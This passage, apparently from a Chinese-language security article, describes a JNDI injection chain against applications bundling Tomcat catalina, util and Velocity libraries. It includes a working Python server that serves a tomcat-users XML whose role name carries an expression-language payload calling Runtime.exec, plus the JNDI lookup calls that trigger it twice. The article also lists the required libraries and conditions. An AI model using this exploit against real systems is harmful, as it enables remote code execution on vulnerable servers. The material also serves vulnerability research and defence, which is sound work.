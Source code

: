但当然，攻击者会写些什么呢？事实证明，由于类中的 XML 节点解析，他们无法使用双引号或尖括号。如果攻击者要编写 JSP 文件，Digester他们当然可以使用表达式语言来规避该问题。  
```
#!/usr/bin/env python3
from http.server import BaseHTTPRequestHandler, HTTPServer

class el(BaseHTTPRequestHandler):
    def log_message(self, format, *args):
        return
    def do_GET(self):
        if self.path.lower().strip().endswith('/poc.jsp'):
            print("(+) request recieved: %s" % self.path)
            message = """<tomcat-users>
    <role rolename="${Runtime.getRuntime().exec('gnome-calculator')}" />
</tomcat-users>"""
            self.send_response(200)
            self.end_headers()
            self.wfile.write(message.encode('utf-8'))
            self.wfile.write('\n'.encode('utf-8'))
        return

if __name__ == '__main__':
    HTTPServer(('0.0.0.0', 1337), el).serve_forever()
```  
  
对于存在漏洞的 JNDI 客户端，需要以下库（版本无关紧要）：  
- tomcat-catalina-9.0.24.jar  
  
- tomcat-juli-10.0.23.jar  
  
- tomcat-util-10.0.23.jar  
  
- tomcat-util-scan-10.0.23.jar  
  
- velocity-1.7.jar  
  
存在漏洞的应用程序需要进程所有者拥有可写的当前工作目录，攻击者还需要触发两次 JNDI 注入。攻击应该可以在基于 Windows 或 Unix 的系统上进行，因为  
getParentFile转义了正斜杠，并且在这两种情况下都可以从正斜杠构建路径。  
```
new InitialContext().lookup("rmi://127.0.0.1:1099/Dir");
new InitialContext().lookup("rmi://127.0.0.1:1099/Rce")
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafXkTqpH8kzeM2obWmRHzC0HPg8eYEicPgStFb99lQPkHhQPhGt3ic4uqSKaG5yokdacicea2L3EGqiag/640?wx_fmt=png&from=appmsg "")  
  
结论  
  
尽管看起来需要多个依赖项，但我相信我们可以通过找到其他目录创建向量或其他将攻击串联在一起的路径来减少这种情况。例如，如果您已经有一个任意目录创建原语，则可以删除 velocity 依赖项。此外，多个库往往会被分组、打包和部署在一起，因此，在您看到 tomcat catalina 库的地方，您肯定会找到 tomcat util 库。  
  
这为典型的  
BeanFactory+   
ELProcessor/  
GroovyShell组合提供了一个很好的替代方案，它可能在不可用时需要  
ELProcessor，  
GroovyShell但它确实需要在目标上下文中执行 JSP。  
  